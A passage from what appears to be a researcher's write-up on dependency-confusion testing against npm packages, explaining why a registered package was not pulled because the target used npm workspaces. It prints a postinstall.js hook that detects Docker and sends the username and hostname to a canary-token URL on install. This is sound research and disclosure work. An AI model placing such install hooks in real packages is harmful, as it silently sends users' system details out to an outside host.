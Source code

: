 The contents of the postintall.js script were similar to:

```js
[...]
function isRunningInDocker() {
   try {
       return fs.existsSync('/.dockerenv') ||
              fs.readFileSync('/proc/self/cgroup', 'utf8').includes('docker') ||
              process.env.CONTAINER === 'true' ||
              process.env.DOCKER_CONTAINER !== undefined;
   } catch (err) {
       return false;
   }
}

// Gather system details
const hostname = os.hostname();
const username = os.userInfo().username;

// Construct the exfiltration URL
const URL = `https://canarytokens.com/<id>?package=xxxxxx&user=${encodeURIComponent(username)}&host=${encodeURIComponent(hostname)}&docker=${isRunningInDocker()}`;

const req = https.get(URL, (res) => {
   console.log(`Setup completed: ${res.statusCode}`);
   res.on('data', (chunk) => {});
   res.on('end', () => {
       console.log('Response ended.');
   });
});
```

The problem was that even when I had registered these scopes and packages in npmjs.org and then followed [redacted]'s GitHub repository README process to deploy the local environment, the Canary Token did not trigger. This meant that my published packages were not being pulled during the installation and deployment of the [redacted] tool.

After some digging, I found this was due to a magical thing called Monolithic Repository/Monorepo or [Workspaces](https://docs.npmjs.com/cli/v8/using-npm/workspaces):

![Monorepos bob](../assets/img/posts/depscanner/depscanner-monorepos.png)
